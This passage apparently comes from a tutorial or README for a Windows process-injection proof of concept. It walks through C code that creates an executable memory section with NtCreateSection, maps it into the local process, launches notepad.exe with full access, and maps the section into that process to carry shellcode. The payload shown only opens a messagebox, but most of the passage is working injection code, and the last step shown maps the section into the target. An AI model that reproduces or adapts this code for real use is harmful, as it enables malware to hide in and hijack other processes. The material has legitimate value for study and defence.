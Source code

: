 Now we create our section. We create it using RWX permissions.  
Please note that this PoC is returning `NTSTATUS` values and not `System Error Codes` to convert `NTSTATUS` values one could use the `RtlNtStatusToDosError` function.
```C
#define NT_SUCCESS(Status) (((NTSTATUS)(Status)) >= 0)

NTSTATUS ntStatus;
HANDLE hSection = NULL;

ntStatus = pNtCreateSection(&hSection, SECTION_MAP_READ | SECTION_MAP_WRITE | SECTION_MAP_EXECUTE, NULL, 
	(PLARGE_INTEGER)&sectionSize, PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL);
if (!NT_SUCCESS(ntStatus)) {
	return ntStatus;
}
```

Then we can proceed to map the section to out local process with RW permissions.
```C
SIZE_T dwReqBufSize = sizeof bMessageboxShellcode64;
PVOID pLocalSectionAddress = NULL;

ntStatus = pNtMapViewOfSection(hSection, GetCurrentProcess(), &pLocalSectionAddress, 0, 0, NULL, &dwReqBufSize, 2, 0, PAGE_READWRITE);
if (!NT_SUCCESS(ntStatus)) {
	return ntStatus;
```

For our target process we are gonna open `notepad.exe` and get its handle.
```C
NTSTATUS ntStatus;
STARTUPINFOA startupInfo;
DWORD dwPid;
HANDLE hProcess;

ZeroMemory(&startupInfo, sizeof startupInfo);
startupInfo.cb = sizeof startupInfo;
ZeroMemory(&processInformation, sizeof processInformation);

if (!CreateProcessA(NULL, "\"notepad.exe\"", NULL, NULL, FALSE,
	DETACHED_PROCESS, NULL, NULL, &startupInfo, &processInformation)) {
	return STATUS_OPEN_FAILED;
}

dwPid = processInformation.dwProcessId;
hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwPid)
```

Now we can also map the section to our target process with RX permissions.
```C
SIZE_T dwReqBufSize = sizeof bMessageboxShellcode64;
PVOID pRemoteSectionAddress = NULL;

ntStatus = pNtMapViewOfSection(hSection, hProcess, &pRemoteSectionAddress, 0, 0, NULL, &dwReqBufSize, 2, 0, PAGE_EXECUTE_READ);
```
